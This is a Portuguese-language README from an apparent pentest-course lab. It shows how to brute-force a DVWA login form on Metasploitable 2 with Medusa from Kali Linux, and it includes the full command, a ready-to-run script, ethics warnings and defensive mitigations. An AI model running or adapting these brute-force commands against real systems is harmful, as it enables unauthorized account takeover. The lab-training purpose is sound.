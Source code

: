 # Brute Force com Medusa no Kali Linux

> **Nota ética:** Este material descreve exercícios realizados em ambiente controlado e autorizado. **Não** utilize essas técnicas contra sistemas que você não tenha permissão para testar.

Olá — este README registra de forma direta e prática o trabalho que realizei no curso de **Penetração (Pentest)** usando ataques de **brute force** com **Medusa** em um laboratório local. Use como referência de estudo, sempre em ambientes autorizados.

---

## Ambiente de teste

* **VM atacante:** Kali Linux
* **VM alvo:** Metasploitable 2
* **Hypervisor:** VirtualBox
* **Tipo de rede:** Host-only (rede isolada entre VMs)

> Recomendo fortemente esse setup para aprender com segurança.

---

## O que contém este repositório

* `README.md` (este arquivo)
* `medusa.sh` (script de exemplo)
* `users.txt` (exemplo de wordlist de usuários — use entradas de teste)
* `pass.txt` (exemplo de wordlist de senhas — use entradas de teste)

---

## Ferramentas utilizadas

* **Medusa** — brute-force em paralelo (SSH, FTP, HTTP, etc.).
* **Kali Linux** — máquina atacante.
* **Metasploitable 2** — alvo intencionalmente vulnerável.
* **VirtualBox** — execução das VMs em rede Host-only.
* Utilitários: `dos2unix`, `bash`, `ssh`, `scp`.

---

## Preparando o ambiente (resumo dos passos)

1. Crie duas VMs no VirtualBox: Kali Linux e Metasploitable 2.
2. Configure a rede como **Host-only** para manter as VMs isoladas.
3. Ligue as VMs e descubra o IP do alvo (ex.: `192.168.56.101`).
4. No Kali, instale o Medusa se não estiver presente:

```bash
sudo apt update
sudo apt install -y medusa
```

5. Crie `users.txt` e `pass.txt` com uma entrada por linha.

---

## Exemplo de execução (brute force HTTP contra formulário)

Antes de rodar, confirme o caminho do formulário e o nome dos campos (ex.: `username`, `password`).

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```

* `-h` : IP do alvo
* `-U` : arquivo com usuários
* `-P` : arquivo com senhas
* `-M` : módulo (aqui `http`)
* `-m PAGE:` : página do formulário
* `-m FORM:` : payload do formulário usando `^USER^` e `^PASS^`
* `-m 'FAIL='` : string que indica tentativa falhada
* `-t` : número de threads

Interrompa com `Ctrl+C` quando precisar.

---

## Script pronto (`medusa.sh`)

Arquivo exemplo — ajuste IP e caminhos antes de usar.

```bash
#!/bin/bash
# medusa.sh - Exemplo para ambiente de teste
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login failed' -t 6
```

Dê permissão de execução:

```bash
chmod +x medusa.sh
./medusa.sh
```

---

## Como interpretar os resultados

* O Medusa mostra combinações válidas no terminal.
* Se não encontrar nada, verifique:

  * Se as listas contêm as credenciais certas;
  * Se os nomes dos campos/form estão corretos (`email` vs `username`);
  * Se há proteção no servidor (bloqueio, rate-limit, CAPTCHA).

Registre horário, IP, listas usadas e saída do Medusa para auditoria.

---

## Aprendizados práticos (direto ao ponto)

* Laboratório isolado é obrigatório para aprendizado seguro.
* Qualidade das wordlists é crucial.
* Ajustes finos em `FORM`, `PAGE` e `FAIL` são necessários para web.
* Controles simples no servidor (bloqueio, MFA, CAPTCHA) limitam brute force.
* Documentar tudo aumenta rastreabilidade.

---

## Boas práticas e mitigação (para defensores)

* Bloqueio de conta temporário após várias tentativas falhas.
* Autenticação multifator (MFA).
* Monitoramento de logs e detecção de padrões de ataques automatizados.
* Rate limiting e CAPTCHAs quando aplicável.

---

## Publicação no GitHub

1. Crie um repositório (recomendo `private` se houver qualquer dado sensível).
2. Adicione `README.md`, `medusa.sh`, `users.txt` e `pass.txt` **somente** com exemplos inofensivos.
3. Inclua `LICENSE` (ex.: MIT) e um `DISCLAIMER` sobre uso ético/educacional.

---

## Aviso legal e ético

Este material é educativo. Não use técnicas aqui descritas contra sistemas sem autorização.

---

## Autor

Mateus Dias Moreira

---

Se quiser que eu também crie o arquivo `medusa.sh` pronto para download, me avisa que eu gero ele aqui no repositório.

